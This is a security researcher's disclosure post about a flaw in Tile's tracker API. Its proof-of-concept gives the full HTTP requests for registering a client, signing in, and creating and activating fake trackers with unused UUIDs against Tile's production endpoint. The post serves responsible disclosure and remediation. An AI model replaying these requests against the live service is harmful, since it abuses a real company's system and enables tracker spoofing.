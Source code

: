 ```yaml
---
title: 'Tile - Creating Fake Trackers'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an authenticated attacker to create fake trackers. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows any authenticated adversary to create fake trackers.

# Vulnerability

It is possible to create fake trackers with unused Tile UUIDs.

The endpoint used to add a Tile tracker to an account doesn't prohibit creating a tracker with an unused Tile UUID.

Essentially, this allows attackers to create almost as many fake trackers as they want without buying legitimate Tile trackers.
All fake trackers are treated by the Tile network as genuine trackers.

# Proof-of-Concept

The process is relatively simple.
The attacker must first sign in to their account.
Then, they must send one request to register a fake tracker and another request to actually activate the tracker.
If the attacker doesn't activate the tracker, some features, such as _Community Find_, will not work with that tracker.

## 1. Authentication
To create a fake tracker, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:
```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

## 2. Creating a Fake Tracker
Using the session cookie and the client UUID of the authentication, the attacker can then create fake tracker by sending the following request:
```http
POST https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=30f4a406-0a01-495b-8018-b9f087e6226e
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="tile_uuid"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 16

75edcdf5bdcae9d3
--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="name"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 12

Fake Tracker
--30f4a406-0a01-495b-8018-b9f087e6226e--
```
The field Tile UUID specified in the request can be any random 8-byte value that is not yet linked to any actual Tile tracker.

## 3. Activating the Fake Tracker
In the last step, the attacker must activate the fake tracker by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=f0845924-3003-45d8-9aa0-816cc3870b89
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="status"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 9

ACTIVATED
--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="group_id"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 36

[...]
--f0845924-3003-45d8-9aa0-816cc3870b89--
```

# Fix

It is recommended to verify that the Tile UUID is linked to a Tile tracker.

# Timeline

- 2024-03-13: Contacting Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacting Tile's support asking for a status update
